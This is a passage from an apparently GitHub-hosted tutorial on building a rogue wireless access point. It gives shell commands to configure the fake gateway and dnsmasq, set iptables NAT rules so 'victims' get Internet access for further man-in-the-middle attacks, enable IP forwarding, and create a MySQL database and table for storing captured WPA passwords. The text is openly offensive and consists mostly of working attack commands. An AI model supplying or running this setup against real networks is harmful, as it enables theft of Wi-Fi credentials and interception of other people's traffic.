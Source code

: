 Assign the network Gateway and netmask to the interface and add the routing table.

```bash
ifconfig wlan1mon up 192.168.1.1 netmask 255.255.255.0
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
```

Now, start dnsmasq server protocol.
```bash
dnsmasq -C dnsmasq.conf -d
```

![dnsmasq](https://github.com/user-attachments/assets/540ae2f1-4855-499f-a783-86ce15f03d28)

### Traffic Forwarding
Here, we will forward traffic from one interface to another, just in case you are eager to provide your victims Internet Access. This would help you perform various other Man-in-the-middel (MITM) attacks and hence, will increase the scope of your attack. After this, it would work most likely a functional wireless access point.

```bash
iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
iptables --append FORWARD --in-interface wlan1mon -j ACCEPT
```

Note these two parameters in the last two commands:

* `--out-interface`: interface from where to forward traffic to wlan1mon, i.e eth0
* `--in-interface`: Interface to which traffic is being forwarded, i.e. wlan1mon

Now, just one step to go..

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

### MySQL Storage
Now, we are required a site storage to store what's posted along the headers in the form fields. In the aireplay tutorial of setting up Rogue Access Point, we used a different approach to get the credentials. In fact, we sniffed the traffic travelling between the server and client to acheive our aim. But that didn't store the password permanently. An alternative approach of that is using database. So, we will use MySQL. Open MySQL and execute the below commands blind-folded.
```bash
mysql
```
```bash
mysql> create database rogueap;
mysql> create user rogueuser;
mysql> grant all on rogueap.* to 'rogueuser'@'localhost' identified by 'roguepassword';
mysql> use rogueap;
mysql> create table wpa_keys(password1 varchar(30), password2 varchar(30));
mysql> ALTER DATABASE rogueap CHARACTER SET 'utf8';
```

What exactly happened back in the previous commands in short is:

* A new database is created.
* This database is assigned a user who can write data under the influence of password.
* A data table is created to store the required fields.
